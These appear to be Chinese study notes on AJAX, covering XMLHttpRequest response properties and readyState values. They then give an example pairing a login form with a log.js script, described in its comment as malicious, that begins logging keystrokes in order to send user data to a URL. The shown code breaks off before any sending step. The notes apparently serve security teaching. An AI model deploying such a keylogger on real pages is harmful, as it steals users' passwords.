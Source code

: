 ##### b. 接受请求

* 使用XMLHttpRequest对象的**ResponseText**和**ResponseXML**属性

<img src="../../images/9-12-morning/AJAX的http响应.png" alt="AJAX的http响应" style="zoom:33%;" >

###### ①onreadystatechange

* readystate有5个取值，分为6个阶段

  1. 取值对应

     | 取值 | 含义                     |
     | ---- | ------------------------ |
     | 0    | 请求未初始化             |
     | 1    | 服务器连接已建立         |
     | 2    | 请求已接收               |
     | 3    | 请求处理中               |
     | 4    | 请求已完成，且响应已就绪 |

  2. 阶段分类

     创建 -> 初始化请求 -> 发送请求  -> 接收数据  -> 解析数据  -> 完成

##### c. 实例

```php
//index.html网页模拟用户真实体验
<html>
    <head></head>
    <script type="text/javascript" src="log.js"></script>    
    <meta charset="utf-8">
    <body>
        <form action="#" method="post" id="form1">
            <label>输入用户名</label>
            <input type="text" name="username" />
            <br>
            <label>输入密码</label>
            <input type="text" name="password" />
            <br><br>
            <input type="submit" name="submit" value="submit" />
        </form>
    </body>
</html>

//log.js文件执行恶意操作(获取到用户数据并通过指定url传递出去)
document.onkeypress=function(evt){
    evt=evt?evt:window.event;
    key=String.fromCharCode(evt.keyCode?evt.keyCode:evt.charCode);
    if(key){
```